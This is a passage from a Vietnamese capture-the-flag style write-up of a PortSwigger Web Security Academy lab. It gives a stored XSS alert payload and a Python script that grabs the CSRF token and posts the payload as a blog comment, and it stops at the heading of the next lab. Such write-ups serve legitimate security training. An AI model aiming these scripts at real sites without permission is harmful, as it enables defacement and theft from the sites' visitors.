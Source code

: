 với payload này mình nhập vào phần comment và đã solve được bài lab

```javascript
<script>alert('XSS')</script>
```

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a9000f704a87a21878b88af00c6007f.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + "/post?postId=8",
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name' : 'csrf'})['value']
data = {
    'comment': "<script>alert('XSS')</script>",
    'postId': '8',
    'name': 'cuong',
    'email': 'a@a.a',
    'website' : '',
    'csrf' : csrf,
}

response = session.post(
    url + "/post/comment",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SJGK5NU96.png)

## 3. Lab: DOM XSS in document.write sink using source location.search

